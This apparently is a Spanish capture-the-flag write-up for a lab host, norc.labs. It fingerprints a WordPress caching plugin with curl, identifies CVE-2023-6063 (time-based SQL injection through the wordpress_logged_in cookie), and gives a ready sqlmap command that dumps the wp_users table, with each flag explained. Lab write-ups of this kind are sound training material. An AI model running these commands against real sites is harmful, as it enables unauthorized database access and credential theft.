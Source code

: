 ~~~ bash
curl -sL http://norc.labs/wp-content/plugins/wp-fastest-cache/readme.txt | grep "Stable" | awk -F ':' '{print $2}' | xargs echo 'version: '
~~~

![Pasted image 20241030002631](https://github.com/user-attachments/assets/d8072719-e42f-417a-87c0-b86da3bbb717)

Busqué en internet por exploits hasta que me encontré que `wp-fastest-cache`, posee un CVE para la versión que se está ejecutando en esta máquina

- https://wpscan.com/blog/unauthenticated-sql-injection-vulnerability-addressed-in-wp-fastest-cache-1-2-2/


# Explotación 
---

## CVE-2023-6063 - Unauthenticated Time Based SQL Injection

Esta vulnerabilidad es de tipo `Time Based`, por lo que podremos saber si nuestras consultas se ejecutan mediante una espera por parte de la respuesta del servidor

**En este caso, tendríamos una cookie que es vulnerable, `wordpress_logged_in`**

- Prueba de concepto: https://github.com/motikan2010/CVE-2023-6063-PoC

Vemos que incluso está presente en `norc.labs`

![Pasted image 20241030131924](https://github.com/user-attachments/assets/361e6ccb-3eee-4f07-8610-a6e5af3233f1)

## SQLmap

Haremos una explotación mediante la herramienta `sqlmap`, que hará que el ataque sea más fácil, pero intentaremos entender cómo funcionan las consultas que envía

### wp_users

Asumiremos que existe una base de datos `wordpress`, entonces debemos ajustar `sqlmap` para que haga consultas a esta base de datos

~~~ bash
sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 -D wordpress -T wp_users --dump --batch
-v2
~~~

- `--dmbs`: Definir el motor de base de datos, en este caso `mysql`
- `-u`: URL
- `--cookie='wordpress_logged_in=*'`: Asignar una cookie a la consulta, **esta cookie es vulnerable a SQL Injection**
- `*`: Valor donde se ingresa el `payload`, en este caso, en la cookie `wordpress_logged_in`
- `--level`: Indica el nivel de intensidad en las pruebas
- `-D`: Especificar el nombre de la base de datos
- `-T`: Nombre de una tabla
- `--dump`: Listar los registros
- `--batch`: Omitir las preguntas al usuario
- `-v2`: Ver información por consola
